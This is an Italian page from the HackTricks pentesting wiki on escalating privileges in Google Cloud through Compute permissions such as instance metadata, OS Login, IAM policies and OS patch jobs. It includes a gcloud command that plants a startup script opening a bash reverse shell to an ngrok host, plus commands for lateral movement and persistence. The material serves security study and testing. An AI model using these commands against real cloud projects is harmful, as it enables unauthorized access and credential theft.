 # GCP - Escalatione dei Privilegi del Compute

<details>

<summary><strong>Impara l'hacking su AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Esperto Red Team AWS di HackTricks)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se desideri vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>

## Compute

Per ulteriori informazioni su Compute e VPC (rete) in GCP controlla:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Nota che per eseguire tutti gli attacchi di escalation dei privilegi che richiedono di modificare i metadati dell'istanza (come aggiungere nuovi utenti e chiavi SSH) è **necessario avere le autorizzazioni `actAs` sull'account di servizio allegato all'istanza**, anche se l'account di servizio è già allegato!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Con tale autorizzazione puoi **modificare** le informazioni dei **metadati** di un'**istanza** e cambiare le **chiavi autorizzate di un utente**, o **creare** un **nuovo utente con permessi sudo**. Pertanto, sarai in grado di eseguire l'accesso via SSH a qualsiasi istanza VM e rubare l'Account di Servizio GCP con cui l'istanza sta funzionando.\
Limitazioni:

* Nota che gli Account di Servizio GCP in esecuzione nelle istanze VM di default hanno un **ambito molto limitato**
* Avrai bisogno di essere **in grado di contattare il server SSH** per effettuare l'accesso

Per ulteriori informazioni su come sfruttare questa autorizzazione controlla:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Potresti anche eseguire questo attacco aggiungendo uno nuovo script di avvio e riavviando l'istanza:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Questa autorizzazione conferisce gli **stessi privilegi dell'autorizzazione precedente** ma su istanze specifiche invece che sull'intero progetto. Si applicano **gli stessi exploit e limitazioni della sezione precedente**.

### `compute.instances.setIamPolicy`

Questo tipo di autorizzazione ti permetterà di **concederti un ruolo con i privilegi precedenti** e di escalare i privilegi abusandone.

### **`compute.instances.osLogin`**

Se **OSLogin è abilitato nell'istanza**, con questa autorizzazione puoi semplicemente eseguire **`gcloud compute ssh [ISTANZA]`** e connetterti all'istanza. **Non avrai privilegi di root** all'interno dell'istanza.

{% hint style="success" %}
Per effettuare il login con successo con questa autorizzazione all'interno dell'istanza VM, è necessario avere l'autorizzazione `iam.serviceAccounts.actAs` sull'account di servizio associato alla VM.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Se **OSLogin è abilitato nell'istanza**, con questa autorizzazione puoi semplicemente eseguire **`gcloud compute ssh [ISTANZA]`** e connetterti all'istanza. Avrai i **privilegi di root** all'interno dell'istanza.

{% hint style="success" %}
Per effettuare il login con successo con questa autorizzazione all'interno dell'istanza VM, è necessario avere l'autorizzazione `iam.serviceAccounts.actAs` sull'account di servizio associato alla VM.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

È possibile **creare una macchina virtuale con un Account di Servizio assegnato e rubare il token** dell'account di servizio accedendo ai metadati per escalare i privilegi ad esso.

Lo script di exploit per questo metodo può essere trovato [qui](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Se hai le autorizzazioni **`osconfig.patchDeployments.create`** o **`osconfig.patchJobs.exec`** puoi creare un [**lavoro di patch o deployment**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Questo ti permetterà di muoverti lateralmente nell'ambiente e ottenere l'esecuzione di codice su tutte le istanze di calcolo all'interno di un progetto.

Se vuoi sfruttare manualmente ciò, dovrai creare un [lavoro di patch](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) o un [deployment](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json) per un lavoro di patch esegui:

`gcloud compute os-config patch-jobs execute --file=patch.json`

Per distribuire un deployment di patch:

`gcloud compute os-config patch-deployments create my-update --file=patch.json`

Esistono strumenti automatizzati come [patchy](https://github.com/rek7/patchy) per rilevare autorizzazioni lasche e muoversi automaticamente lateralmente.

**Puoi anche sfruttare ciò per la persistenza.**

### `compute.machineImages.setIamPolicy`

**Concediti permessi aggiuntivi** per l'immagine di calcolo.

### `compute.snapshots.setIamPolicy`

**Concediti permessi aggiuntivi** per uno snapshot del disco.

### `compute.disks.setIamPolicy`

**Concediti permessi aggiuntivi** per un disco.

### Bypass delle Scelte di Accesso

Seguendo questo link troverai alcune [**idee per cercare di aggirare le scelte di accesso**](../).

### Escalation dei Privilegi Locali nell'istanza di Calcolo GCP

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Riferimenti

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)
